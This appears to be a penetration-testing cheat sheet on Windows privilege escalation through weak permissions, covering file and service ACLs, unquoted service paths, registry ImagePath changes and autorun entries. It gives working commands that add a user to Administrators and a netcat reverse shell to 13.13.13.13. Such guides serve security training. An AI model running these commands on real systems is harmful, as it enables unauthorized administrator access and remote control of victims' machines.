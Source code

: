 ```yaml
---
description: Here would be an examples of weak permissions abuse
---
```


# Weak Permissions

## <mark style="color:yellow;">**Permissive File System ACLs**</mark>

#### **Running SharpUp**

* Tool: <mark style="color:green;">**SharpUp**</mark> from GhostPack to check for weak ACLs.

```powershell
PS C:\> .\SharpUp.exe audit
```

* Example vulnerable service:
  * **Name:** <mark style="color:green;">**SecurityService**</mark>
  * **Path:** <mark style="color:green;">`"C:\Program Files (x86)\PCProtect\SecurityService.exe"`</mark>

#### **Checking Permissions with&#x20;**<mark style="color:green;">**`icacls`**</mark>

```powershell
PS C:\> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

* Output shows <mark style="color:green;">`Everyone`</mark> and <mark style="color:green;">`BUILTIN\Users`</mark> have <mark style="color:green;">`Full Control`</mark>.

#### **Replacing Service Binary with malicious one**

```powershell
C:\> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\> sc start SecurityService
```

* Replace with a malicious binary to gain SYSTEM privileges.

## <mark style="color:yellow;">**Weak Service Permissions**</mark>

#### **Checking Modifiable Services with SharpUp**

```powershell
C:\> SharpUp.exe audit
```

* Example vulnerable service:
  * **Name:** WindscribeService
  * **Path:** <mark style="color:green;">`"C:\Program Files (x86)\Windscribe\WindscribeService.exe"`</mark>

#### **Checking Permissions with&#x20;**<mark style="color:green;">**`accesschk`**</mark>

```powershell
C:\> accesschk.exe /accepteula -quvcw WindscribeService
```

* <mark style="color:green;">`NT AUTHORITY\Authenticated Users`</mark> has <mark style="color:green;">`SERVICE_ALL_ACCESS`</mark> (full control).

#### **Changing the Service Binary Path**

```powershell
C:\> sc config WindscribeService binpath="cmd /c net localgroup administrators ven17 /add"
```

* Grants user <mark style="color:green;">`ven17`</mark> administrator rights.

#### **Stopping & Starting the Service**

```powershell
C:\> sc stop WindscribeService
C:\> sc start WindscribeService
```

* Executes the new binary path.

#### **Confirming Privilege Escalation**

```powershell
C:\> net localgroup administrators
```

* Verify if <mark style="color:green;">`ven17`</mark> was added to the Administrators group.

#### **Resetting the Binary Path (Cleanup)**

```powershell
C:\> sc config WindscribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"
C:\> sc start WindscribeService
C:\> sc query WindscribeService
```

## <mark style="color:yellow;">**Unquoted Service Path**</mark>

* If a service binary path is not enclosed in quotes, Windows may execute unintended binaries.
*   Example vulnerable service:

    ```plaintext
    C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
    ```
* Windows may execute:
  * <mark style="color:green;">`C:\Program.exe`</mark>
  * <mark style="color:green;">`C:\Program Files\System.exe`</mark>

#### <mark style="color:orange;">**Finding Unquoted Service Paths**</mark>

```powershell
C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

## <mark style="color:yellow;">**Permissive Registry ACLs**</mark>

#### **Checking for Weak Service ACLs in the Registry**

```powershell
C:\> accesschk.exe /accepteula "ven17" -kvuqsw hklm\System\CurrentControlSet\services
```

* Example vulnerable service: <mark style="color:green;">**ModelManagerService**</mark>
* Allows modification of the <mark style="color:green;">`ImagePath`</mark>.

#### **Changing&#x20;**<mark style="color:green;">**`ImagePath`**</mark>**&#x20;with PowerShell**

```powershell
PS C:\> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\ven17\Downloads\nc.exe -e cmd.exe 13.13.13.13 443"
```

* Executes Netcat shell upon service start.

## <mark style="color:yellow;">**Modifiable Registry Autorun Binaries**</mark>

#### **Checking Startup Programs**

```powershell
PS C:\> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
```

* If the attacker can modify a startup binary, they can execute malicious code on user login.
